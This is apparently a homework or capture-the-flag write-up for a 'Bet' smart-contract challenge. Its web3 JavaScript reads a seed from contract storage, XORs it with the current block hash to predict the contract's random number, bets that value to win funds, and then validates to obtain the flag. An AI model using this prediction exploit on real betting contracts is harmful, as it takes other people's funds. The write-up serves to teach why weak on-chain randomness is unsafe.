


# Hw03

## Bet

First, we create a instance of bet from server.<br>

```js
async function main() {
    ...
    let factory_addr = '0x8e0a809B1f413deB6427535cC53383954DBF8329'
    let factory = lib.contract(factory_addr, JSON.parse(fs.readFileSync('BetFactory.abi')))

    let instance_address = await factory.view('instances', lib.account.address)

    if (instance_address === '0x0000000000000000000000000000000000000000') {
        await factory.call({value: web3.utils.toWei('0.6', 'ether')}, 'create')
        instance_address = await factory.view('instances', lib.account.address)
    }
    console.log(`instance = ${instance_address}`)
    ...
}
```


<br><br><br>

Next, we use web3 library, getting the seed, blocknumber and blockhash, and we xor seed and b2, which is `getRandom ()` doing in the contract.<br>

```js
async function main() {
    ...
    let seed = await web3.eth.getStorageAt(instance_address, 1)
    let bn = await web3.eth.getBlockNumber()
    let b2 = (await web3.eth.getBlock(bn))['hash']
    rand = web3.utils.toBN(seed).xor(web3.utils.toBN(b2))
    console.log(rand)
    ...
}
```

<br><br><br>

After we get the random number, we send it to our instance and get money.<br>

```js
async function main() {
    ...
    instance = lib.contract(instance_address, JSON.parse(fs.readFileSync('Bet.abi')))
    await instance.call({value: web3.utils.toWei('0.00000001', 'ether')}, 'bet', rand)
}
```

<br><br><br>


Finally, we validate balance server, and get flag! <br>

```js
async function main() {
    let factory_addr = '0x8e0a809B1f413deB6427535cC53383954DBF8329'
    let factory = lib.contract(factory_addr, JSON.parse(fs.readFileSync('BetFactory.abi')))

    let token = '0xafdd757a8ad0241dcb6f307861e19d29ca2f701d3907551dc289b49b3fbce88f'
    await factory.call('validate', token)
}
```

